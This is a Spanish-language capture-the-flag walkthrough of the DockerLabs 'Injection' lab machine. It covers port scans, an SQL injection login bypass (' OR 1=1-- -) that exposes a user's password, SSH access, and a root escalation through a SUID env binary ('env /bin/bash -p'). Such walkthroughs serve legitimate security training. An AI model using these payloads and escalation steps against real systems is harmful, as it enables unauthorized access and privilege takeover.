 ```yaml
---
icon: flag
---
```


# Injection DockerLabs (Very Easy)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip injection.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh injection.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-02 05:11 EST
Nmap scan report for 172.17.0.2
Host is up (0.000034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.82 seconds
```

Si entramos en la pagina vemos un `login`, pero si probamos las credenciales por defecto veremos que no nos va a dejar entrar, vamos a probar algun `payload` para ver si fuera vulnerable a un `SQL Injection`:

```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

Como resultado veremos lo siguiente:

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Vemos que directamente podremos `bypassear` el login y ver las credenciales de un usuario, por lo que haremos lo siguiente.

```shell
ssh dylan@<IP>
```

Metemos como contarseña `KJSDFG789FGSDF78` y veremos que estamos dentro.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2102291    332 -rwsr-xr-x   1 root     root       338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
  2102231     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2097641     44 -rwsr-xr-x   1 root     root          44808 Feb  6  2024 /usr/bin/chsh
  2097766     40 -rwsr-xr-x   1 root     root          40496 Feb  6  2024 /usr/bin/newgrp
  2097777     60 -rwsr-xr-x   1 root     root          59976 Feb  6  2024 /usr/bin/passwd
  2097841     56 -rwsr-xr-x   1 root     root          55672 Feb 21  2022 /usr/bin/su
  2097703     72 -rwsr-xr-x   1 root     root          72072 Feb  6  2024 /usr/bin/gpasswd
  2097761     48 -rwsr-xr-x   1 root     root          47480 Feb 21  2022 /usr/bin/mount
  2097867     36 -rwsr-xr-x   1 root     root          35192 Feb 21  2022 /usr/bin/umount
  2097635     72 -rwsr-xr-x   1 root     root          72712 Feb  6  2024 /usr/bin/chfn
  2117300     44 -rwsr-xr-x   1 root     root          43976 Jan  8  2024 /usr/bin/env
```

Vemos la siguiente linea bastante interesante:

```
2117300  44 -rwsr-xr-x   1 root  root   43976 Jan  8  2024 /usr/bin/env
```

Por lo que sabiendo esto podremos ejecutar el siguiente comando:

```shell
env /bin/bash -p
```

Info:

```
bash-5.1# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
